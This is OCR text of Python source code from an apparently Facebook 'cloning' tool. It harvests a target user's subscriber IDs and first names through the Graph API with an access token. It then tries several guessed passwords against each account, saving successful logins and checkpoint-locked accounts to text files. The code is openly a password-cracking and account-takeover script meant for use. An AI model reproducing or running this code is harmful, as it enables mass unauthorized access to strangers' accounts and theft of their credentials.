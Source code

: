 		print banner
		idt = raw_input("\033[1;97m[!] \033[1;92mPut ID/Username  :\033[1;97m ")
		print("")
		pass1 = raw_input("\033[1;92m[1] Enter Password :\033[1;93m ")
		pass2 = raw_input("\033[1;92m[2] Enter Password :\033[1;93m ")
		pass3 = raw_input("\033[1;92m[3] Enter Password :\033[1;93m ")
		pass4 = raw_input("\033[1;92m[4] Enter Password :\033[1;93m ")
		pass5 = raw_input("\033[1;92m[5] Enter Password :\033[1;93m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			os.system('clear')
			print banner
			print("[!] Target User : "+q["name"])
		except KeyError:
			print("")
			print("Public ID Not Found").center(50)
			print("")
			time.sleep(3)
			choose()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="0":
	    menu()
	else:
		print("")
		print("\t    \033[1;91mSelect valid option\033[0;97m")
		print("")
		time.sleep(3)
		choose()
	print("\033[1;97m[!] \033[1;92mTotal User IDs :\033[1;92m "+str(len(id)))
	time.sleep(0.05)
	print("\033[1;97m[!]\033[1;95m Cracking Start...")
	time.sleep(0.05)
	print("\033[1;97m[!]\033[1;96m Plz wait clone account will be appear here\033[1;0m")
	time.sleep(0.05)
	print(50*"-")
			
			
	def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
			data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass1, headers=header).text
			q = json.loads(data)
			if "loc" in q:
				print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass1+"\033[0;97m")
				ok = open("successful.txt", "a")
				ok.write(uid+" | "+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in q["error"]:
					print("\033[1;91m[CheckPoint] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("checkpoint.txt","a")
					cp.write(uid+" | "+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)